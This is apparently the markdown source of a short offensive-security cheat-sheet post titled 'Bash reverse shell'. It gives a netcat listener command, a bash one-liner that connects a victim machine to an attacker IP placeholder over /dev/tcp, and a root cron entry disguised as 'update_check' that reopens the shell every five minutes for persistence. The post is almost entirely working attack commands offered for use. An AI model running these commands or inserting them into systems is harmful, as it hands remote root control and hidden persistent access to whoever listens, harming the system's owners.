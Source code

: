 ```yaml
---
layout: post
title:  "Bash reverse shell"
categories: reverse_shell
summary: Create reverse shell with bash
---
```


{% include instructions.md %}

### {{page.title}}

In attacker’s computer listen 51920 port using Netcat
```shell
# nc -l -p 51920
```

Victim is connecting to attacker and opening reverse shell
```shell
# /bin/bash -i >& /dev/tcp/[attacker ip address]/51920 0>&1
```

You can also create a script that will try to open a reverse shell in every 5 minute
```shell
# nano /etc/cron.d/update_check

*/5 * * * * root /bin/bash -c '/bin/bash -i >& /dev/tcp/[attacker ip address]/51920 0>&1'
```
